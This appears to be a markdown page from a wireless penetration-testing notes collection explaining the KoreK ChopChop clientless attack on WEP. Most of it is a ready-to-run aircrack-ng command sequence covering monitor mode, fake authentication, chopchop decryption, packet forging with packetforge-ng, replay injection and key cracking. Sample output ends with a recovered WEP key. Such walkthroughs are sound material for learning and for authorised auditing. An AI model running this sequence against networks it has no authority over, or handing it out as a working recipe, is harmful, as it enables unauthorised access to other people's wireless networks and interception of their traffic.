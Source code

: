 # Korek ChopChop Attack (Clientless) (WEP)

This attack, when successful, can decrypt a WEP data packet without knowing the key. It can even work against dynamic WEP. This attack does not recover the WEP key itself, but merely reveals the plaintext. However, some access points are not vulnerable to this attack. Some may seem vulnerable at first but actually drop data packets shorter that 60 bytes. If the access point drops packets shorter than 42 bytes, aireplay tries to guess the rest of the missing data, as far as the headers are predictable. If an IP packet is captured, it additionally checks if the checksum of the header is correct after guessing the missing parts of it. This attack requires at least one WEP data packet.

## Commands

* Run [setup](../../setup.md) first
* Three terminals are needed
* NO clients associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack with prolonged reassociation timing (every 60 secs)
sudo aireplay-ng --fakeauth 60 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# [Terminal Three]
sudo aireplay-ng --chopchop -b $BSSID -h $INTERFACEMAC $INTERFACE

# Wait for 'Use this packet y' then enter y
# Wait for a loooong time to reach 100% done.
# It's possible to use less than 100% but risky
# Look for a replay_dec-*.xor file

# Forge a fake packet, -l source, -k destination
sudo packetforge-ng -0 -a $BSSID -h $INTERFACEMAC -l 255.255.255.255 -k 255.255.255.255 -y replay_dec-0613-175215.xor -w inject.cap

# Check veracity of file
tcpdump -n -vvv -e -s0 -r inject.cap

reading from file inject.cap, link-type IEEE802_11 (802.11), snapshot length 65535
17:55:05.191216 Protected 258us BSSID:AA:BB:CC:DD:EE:FF SA:FF:EE:DD:CC:BB:AA DA:ff:ff:ff:ff:ff:ff Data IV:5cbca Pad 0 KeyID 0

# Run the interactive attack against the client
sudo aireplay-ng --interactive -r inject.cap $INTERFACE

# Watch for the data to explode in size with lots of IVs :)
# If successful, data should get large
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* View the output for the success message

```
Reading packets, please wait...
Opening wifu-01.cap
Read 441431 packets.

   #  BSSID              ESSID                     Encryption

   1  AA:BB:CC:DD:EE:FF  wifu                      WEGot 74852 out of 70000 IVsStarting PTW attack with 74852 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [KoreK ChopChop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop)
* [ChopChop Theory](https://www.aircrack-ng.org/doku.php?id=chopchoptheory)
* [Learning Thing](https://www.youtube.com/watch?v=2mrmqF4P0DM&ab_channel=learningthing)
